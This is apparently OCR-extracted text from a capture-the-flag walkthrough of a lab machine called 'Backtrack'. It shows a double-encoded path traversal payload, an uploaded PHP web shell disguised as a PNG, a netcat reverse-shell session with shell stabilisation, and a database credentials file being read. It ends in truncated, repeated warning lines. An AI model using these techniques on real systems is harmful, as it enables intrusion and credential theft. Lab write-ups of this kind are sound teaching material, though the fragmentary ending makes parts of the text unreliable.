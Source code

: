 
<br>
<br>

```bash
%25%32%65%25%32%65%25%32%66
```

```bash
HTTP/1.1 200 OK
Date: Fri, 12 Sep 2025 01:31:07 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2298
Connection: close
Content-Type: text/html; charset=UTF-8



<!DOCTYPE html>
<html>
...

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
A                           <div class="col-lg-4 col-md-12 mb-4 mb-lg-0">
                    <img src="uploads/rev.png.php" class="w-100 shadow-1-strong rounded mb-4" />
```

```bash
:~/Backtrack# nc -nlvp 443
...
$ id
uid=1003(orville) gid=1003(orville) groups=1003(orville)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
orville@Backtrack:/var/www/html$ ^Z
[2]+  Stopped                 nc -nlvp 443
root@ip-10-201-18-53:~/Backtrack# stty raw -echo; fg
nc -nlvp 443

orville@Backtrack:/var/www/html$ export TERM=xterm
orville@Backtrack:/var/www/html$ ls
css            includes   login.php   navbar.php    rev.png.php   uploads
dashboard.php  index.php  logout.php  register.php  rose.png.php
```

```bash
orville@Backtrack:/var/www/html/includes$ cat db.php
cat db.php
<?php
$host = 'localhost';
$dbname = 'backtrack';
$username = 'orville';
$password = '*******************';

try {
    $db = new PDO("mysql:host=$host;dbname=$dbname", $username, $password);
    $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    echo "Connection failed: " . $e->getMessage();
    die();
}
?>
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-